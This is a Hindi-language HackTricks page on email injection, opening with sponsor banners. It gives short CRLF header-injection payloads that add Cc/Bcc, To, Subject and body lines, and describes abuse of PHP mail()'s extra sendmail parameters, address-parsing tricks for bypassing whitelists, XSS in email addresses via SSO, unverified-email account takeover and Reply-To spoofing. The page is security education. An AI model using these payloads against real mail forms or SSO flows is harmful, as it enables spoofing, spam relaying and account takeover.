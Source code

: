 # ईमेल इंजेक्शन

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) का उपयोग करें और दुनिया के **सबसे उन्नत समुदाय उपकरणों** द्वारा संचालित **कार्यप्रवाहों** को आसानी से निर्मित करें और स्वचालित करें।\
आज ही पहुंचें:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का **विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **मुझे** ट्विटर पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## भेजे गए ईमेल में इंजेक्ट करें

### भेजने वाले तर्क के बाद Cc और Bcc में इंजेक्ट करें
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
यह संदेश प्राप्तकर्ता और प्राप्तकर्ता1 खातों में भेजा जाएगा।

### तर्क इंजेक्शन
```
From:sender@domain.com%0ATo:attacker@domain.com
```
### विषय तर्क डालें
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
### संदेश का शरीर बदलें

दो-पंक्ति फीड इंजेक्ट करें, फिर अपना संदेश लिखें ताकि संदेश का शरीर बदल जाए।
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### PHP mail() फ़ंक्शन शोषण
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
}
```
#### 5वां पैरामीटर ($additional\_parameters)

यह खंड **इस पैरामीटर को कैसे दुरुपयोग किया जा सकता है यह मानता है कि एक हमलावर इसे नियंत्रित करता है** पर आधारित होगा।

यह पैरामीटर PHP द्वारा उपयोग किए जाने वाले बाइनरी sendmail को आमंत्रित करने के लिए जोड़ा जाएगा। हालांकि, इसे फ़ंक्शन `escapeshellcmd($additional_parameters)` के साथ सैनिटाइज़ किया जाएगा।

इस मामले में एक हमलावर **sendmail के लिए अतिरिक्त पैरामीटर डाल सकता है**।

#### /usr/sbin/sendmail के कार्यान्वयन में अंतर

**sendmail** इंटरफ़ेस **MTA ईमेल सॉफ़्टवेयर द्वारा प्रदान किया जाता है** (Sendmail, Postfix, Exim आदि) जो सिस्टम पर स्थापित है। हालांकि, **मूल फ़ंक्शनलिटी** (जैसे -t -i -f पैरामीटर) **संगति कारणों के लिए एक ही रहती है**, **अन्य फ़ंक्शन और पैरामीटर** MTA इंस्टॉल किए जाने पर बहुत अधिक भिन्न होते हैं।

यहाँ कुछ उदाहरण हैं विभिन्न sendmail कमांड/इंटरफ़ेस के मैन पेज के:

* Sendmail MTA: http://www.sendmail.org/\~ca/email/man/sendmail.html
* Postfix MTA: http://www.postfix.org/mailq.1.html
* Exim MTA: https://linux.die.net/man/8/eximReferences

**sendmail के मूल्यांकन** के मूल्यांकन के आधार पर विभिन्न विकल्पों की खोज की गई है और **उन्हें दुरुपयोग करने और फ़ाइलें लीक करने या अर्बिट्रे कमांड्स को निषेधित करने** के लिए। देखें कैसे [**https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html**](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)

## ईमेल नाम में इंजेक्शन

### ईमेल के अनदेखे हिस्से

चिह्न: **+, -** और **{}** अत्यधिक दुर्लभ स्थितियों में टैगिंग के लिए उपयोग किए जा सकते हैं और अधिकांश ईमेल सर्वर द्वारा अनदेखा किए जा सकते हैं

* उदाहरण: john.doe+intigriti@example.com → john.doe@example.com

**आवश्यकता के बीच टिप्पणियाँ ()** शुरू या अंत में भी अनदेखा किए जाएंगे

* उदाहरण: john.doe(intigriti)@example.com → john.doe@example.com

### सफेद सूची अनदेखा करना

<figure><img src="../.gitbook/assets/image (4) (6).png" alt="https://www.youtube.com/watch?app=desktop&v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### उद्धरण

<figure><img src="../.gitbook/assets/image (6) (4).png" alt="https://www.youtube.com/watch?app=desktop&v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### IPs

आप वर्गीकरण ब्रैकेट के बीच डोमेन के रूप में IPs का उपयोग भी कर सकते हैं:

* john.doe@\[127.0.0.1]
* john.doe@\[IPv6:2001:db8::1]

### अन्य सुरक्षा दोष

![https://www.youtube.com/watch?app=desktop&v=4ZsTKvfP1g0](<../.gitbook/assets/image (296).png>)

## तीसरे पक्ष का SSO

### XSS

कुछ सेवाएं जैसे **github** या **salesforce** आपको इसमें **XSS payloads के साथ ईमेल पता बनाने की अनुमति देती हैं**। यदि आप **इन प्रदाताओं का उपयोग करके अन्य सेवाओं में लॉगिन कर सकते हैं** और यह सेवाएं **ईमेल को सही ढंग से सैनिटाइज़ नहीं कर रही हैं**, तो आप **XSS** का कारण बन सकते हैं।

### खाता-अधिकार

यदि एक **SSO सेवा** आपको दिए गए ईमेल पते की पुष्टि किए बिना खाता बनाने की अनुमति देती है (जैसे **salesforce**) और फिर आप उस खाते का उपयोग किसी अलग सेवा में लॉगिन करने के लिए कर सकते हैं जो **salesforce पर भरोसा करती है**, तो आप किसी भी खाते तक पहुंच सकते हैं।\
_ध्यान दें कि salesforce देता है कि दिया गया ईमेल पुष्टि किया गया था या नहीं लेकिन ऐप्लिकेशन को इस सूचना को ध्यान में रखना चाहिए।_

## जवाब-करने के लिए

आप _**From: company.com**_ और _**Replay-To: attacker.com**_ का उपयोग करके ईमेल भेज सकते हैं और यदि कोई **स्वचालित जवाब** भेजा जाता है क्योंकि ईमेल **आंतरिक पते** से भेजा गया था तो **हमलावर** को उस **प्रतिक्रिया** को **प्राप्त** करने की संभावना हो सकती है।

## हार्ड बाउंस दर

कुछ सेवाएं, जैसे AWS, एक धारणा को लागू करती हैं जिसे **हार्ड बाउंस दर** के रूप में जाना जाता है, जो सामान्यत: 10% पर सेट किया जाता है। यह एक महत्वपूर्ण मैट्रिक है, विशेष रूप से ईमेल वितरण सेवाओं के लिए। जब यह दर पार की जाती है, सेवा, जैसे AWS की ईमेल सेवा, आपकी ईमेल भेजने की क्षमताओं को निलंबित या ब्लॉक कर सकती है।

**हार्ड बाउंस** एक **ईमेल** को संदेशकर्ता के पास वापस भेज दिया गया है क्योंकि प्राप्तकर्ता का पता अमान्य या अस्तित्व नहीं है। इसका कारण विभिन्न हो सकता है, जैसे ईमेल किसी अस्तित्व न करने वाले पते पर भेजा गया हो, एक डोमेन जो वास्तविक नहीं है, या प्राप्तकर्ता सर्वर जो ईमेल स्वीकार करने से इनकार करता है।

AWS के संदर्भ में, यदि आप 1000 ईमेल भेजते हैं और उनमें से 100 हार्ड बाउंस के परिणामस्वरूप होते हैं (अमान्य पते या डोमेन जैसे कारणों से), तो यह एक 10% हार्ड बाउंस दर का मतलब होगा। इस दर को पहुंचना या पार करना AWS SES (सिम्पल ईमेल सेवा) को आपकी ईमेल भेजने की क्षमताओं को ब्लॉक या निलंबित कर सकता है।

एक निरंतर ईमेल सेवा सुनिश्चित करने और भेजने वाले के प्रतिष्ठान को बनाए रखने के लिए एक कम हार्ड बाउंस दर को बनाए रखना महत्वपूर्ण है। आपके मेलिंग सूची में ईमेल पतों की गुणवत्ता का मॉनिटरिंग और प्रबंधन इसे प्राप्त करने में महत्वपूर्ण रूप से मदद कर सकता है।

अधिक विस्तृत जानकारी के लिए, AWS की आधिकारिक दस्तावेज़ीकरण पर बाउंस और शिकायतों का संभालन करने के लिए [AWS SES Bounce Handling](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/notification-contents.html#bounce-types) का संदर्भ देखा जा सकता है।

## संदर्भ

* [https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)
* [https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)
* [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)
* [https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0)
